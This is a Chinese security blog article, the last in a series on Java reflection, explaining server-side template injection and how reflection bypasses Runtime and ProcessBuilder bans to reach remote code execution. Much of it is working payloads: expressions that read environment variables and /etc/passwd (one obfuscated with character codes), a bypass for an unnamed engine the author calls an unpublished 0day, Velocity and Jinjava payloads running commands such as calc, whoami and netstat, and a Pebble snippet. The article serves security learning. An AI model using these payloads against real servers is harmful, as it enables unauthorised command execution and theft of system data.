

# 从安全角度谈Java反射机制--终章

# 前言

首发：<https://www.sec-in.com/article/309>  
   通过前两章的了解，大家对Java反射机制有了一定的认知。本章作为反射篇的最终章，如果从反序列化的层面来说Java反射的具体危害，需要一些反序列化的基础知识。故笔者决定从反射机制本身来说，它的一个经常被使用的点—Server-Side Template Injection（简称SSTI），中文名服务器端模板注入。

---

# SSTI

   模板引擎被广泛应用于Web应用程序中，通过网页和电子邮件呈现动态数据。将用户输入内容不安全嵌入到模板中，实现服务器端模板注入。SSTI极其容易被误认为是跨站点脚本（XSS），大多数人经常与之擦肩而过。与XSS不同的是，模板注入可以用于直接攻击Web服务器内部，并经常获得远程代码执行（RCE）。模板注入可以通过开发人员的错误配置，通过故意暴露模板，开发人员试图通过来其提供丰富的功能，就像维基、博客、营销应用和内容管理等系统。  
  先看通用的Java SSTI的payload，payload中的T通常是需要声明的变量，每一个模板引擎都不同。在这里，我们不能发现已经可以看到反射的`“影子”`了，下面会从每一个模板来具体分析介绍任何使用反射从`SSTI`到`RCE`。

1. 获取系统环境变量
   > ${T(java.lang.System).getenv()}
2. 读取文件内容
   > - ${T(java.lang.Runtime).getRuntime().exec(‘cat etc/passwd’)}
   > - ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}

---

# Template

## 前言

   这里模板引擎是国内的模板引擎，漏洞还未必收录，故暂不公布，这里只做学习研究。如果你无意中接触过这个模板，如果你认出了这个模板，那么恭喜你获得0day一枚。笔者有一个请求如果你认出了，就不要公布了，0day你自己知道就好了。此款模板引擎禁止使用了`java.lang.Runtime`和`java.lang.ProcessBuilder`类的使用，使用Java的反射机制完美的bypass。

## payload构造

```javascript
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",
@java.lang.Class.forName("java.lang.String")).invoke(
@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
```

1. 我们且看第一行，按照上面给出简单案例方法，我们应该这样子就可以了`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(newInstance(),"calc")`
2. 但是直接String.class直接写模板是找不到的，所以我们得继续构造payload，将String.class转化`@java.lang.Class.forName("java.lang.String")`的形式，然后payload就变成下面这样子了。`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(newInstance(),"calc")`
3. 照道理上面就可以直接使用了，但是呢Runtime类没有无参构造方法，因此不能使用newInstance()方法来实例化。只能通过调用getRuntime()方法来进行实例化。所以newInstance()得替换成`@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null)`最终payload就变成了下面这样子。

   ```javascript
   ${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
   ```

---

# Velocity

## 前言

   Velocity是一个基于Java的模板引擎，是隶属于Apache旗下的一个开源项目。它允许任何人使用简单而强大的模板语言来引用Java代码中定义的对象。  
   下面是Velocity的SSTI的payload，此时的你可能会有个疑问。payload语法好像有点奇怪？这个其实是模板语法，每一个模板引擎的语法都不同。笔者觉得大同小异，有过编程的基础童鞋，稍加学习就能明白。

```
#set($x="")  
#set($rt=$x.class.forName("java.lang.Runtime"))
#set($chr=$x.class.forName("java.lang.Character"))  
#set($str=$x.class.forName("java.lang.String"))
#set($ex=$rt.getRuntime().exec("calc"))$ex.waitFor() 
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

### #set语法

   #set语法可以创建一个Velocity的变量，#set语法对应的Velocity语法树是ASTSetDirective类，翻开这个类的代码，可以发现它有两个子节点：分别是RightHandSide和LeftHandSide，分别代表“=”两边的表达式值。与Java语言的赋值操作有点不一样的是，左边的LeftHandSide可能是一个变量标识符，也可能是一个set方法调用。变量标识符很好理解，如前面的#set($ var=“偶数”)，另外是一个set方法调用，如#set($person.name=”junshan”)，这实际上相当于Java中person.setName(“junshan”)方法的调用。

### foreach语法

   Velocity中的循环语法只有这一种，它与Java中的for循环的语法糖形式十分类似，如#foreach($ child in $person.children) $ person.children表示的是一个集合，它可能是一个List集合或者一个数组，而$ child表示的是每个从集合中取出的值。从render方法代码中可以看出，Velocity首先是取得$ person.children的值，然后将这个值封装成Iterator集合，然后依次取出这个集合中的每一个值，将这个值以$child为变量标识符放入context中。除此以外需要特别注意的是，Velocity在循环时还在context中放入了另外两个变量，分别是counterName和hasNextName，这两个变量的名称分别在配置文件配置项directive.foreach.counter.name和directive.foreach.iterator.name中定义，它们表示当前的循环计数和是否还有下一个值。前者相当于for(int i=1;i<10;i++)中的i值，后者相当于while(it.hasNext())中的it.hasNext()的值，这两个值在#foreach的循环体中都有可能用到。由于elementKey、counterName和hasNextName是在#foreach中临时创建的，如果当前的context中已经存在这几个变量，要把原始的变量值保存起来，以便在这个#foreach执行结束后恢复。如果context中没有这几个变量，那么#foreach执行结束后要删除它们，这就是代码最后部分做的事情，这与我们前面介绍的#set语法没有范围限制不同，#foreach中临时产生的变量只在#foreach中有效。

更多语法知识推荐[Velocity中文文档](http://www.yunshouce.com/g62/velocitydoc/11.html)。

---

## 反射Payload

   了解语法之后，回头看payload会觉得很简单，其实就是基本的payload的构造。

```
#set($x="")  
#set($rt=$x.class.forName("java.lang.Runtime"))
#set($chr=$x.class.forName("java.lang.Character"))  
#set($str=$x.class.forName("java.lang.String"))
#set($ex=$rt.getRuntime().exec("calc"))$ex.waitFor() 
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

把payload转化成伪代码。

```java
rt = java.lang.Runtime.class
chr = java.lang.String
ex = java.lang.Runtime.getRuntime().exec("calc")
ex.waitFor()
// 接着就是循环读取输出
```

**推荐一个经典案例**  
[Apache Solr 模板注入远程命令执行](https://samny.blog.csdn.net/article/details/102843715)漏洞详情  
[白头搔更短，SSTI惹人心！](https://samny.blog.csdn.net/article/details/104881477)漏洞分析

---

# Jinjava

## 前言

   Jinjava是一款开源的 Java 模板引擎，基于 django 模板语法，适用于渲染 jinja 模板（至少是 HubSpot 内容中使用的 jinja 子集）。目前在生产中用于渲染`HubSpot CMS`，每月有数以亿计的页面浏览量的网站。[官方GitHub地址](https://github.com/HubSpot/jinjava)。  
判断Jinjava是否存在SSTI漏洞的payload：

1. A 回显大写``A``
2. 会返回一个请求对象 例如：``com.[...].context.TemplateContextRequest@23548206``

## 反射Payload

   这款模板引擎的payload直接就能看出是用Java的反射机制，都是先获取的`javax.script.ScriptEngineManager`类对象，然后`newInstance()`实例化，在之后创建一个`JavaScript`引擎最后执行命令。  



```bash
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```


---

# Pebble

   Pebble是一个受Twig启发的java模板化引擎。它以其继承功能和易读的语法从人群中脱颖而出。它内置了安全的自动缩放功能，并且包含了对国际化的集成支持。更多内容查看[官方GitHub地址](https://github.com/PebbleTemplates/pebble)，[官方文档](https://pebbletemplates.io/wiki/guide/basic-usage/)。  
payload：


```java


{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```


---

# 总结

   各大模板引擎在设计的时候，都或多或少变相禁止`java.lang.Runtime`和`java.lang.Processbuilder`类，因此使用Java的反射机制可以完全的绕过限制。想要深入学习SSTI漏洞的时候，建议看模板引擎官方给出的文档，在结合JDK文档大多数模板引擎是可以bypass的。

---

# 参考

<https://samny.blog.csdn.net/article/details/104881477>  
<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>
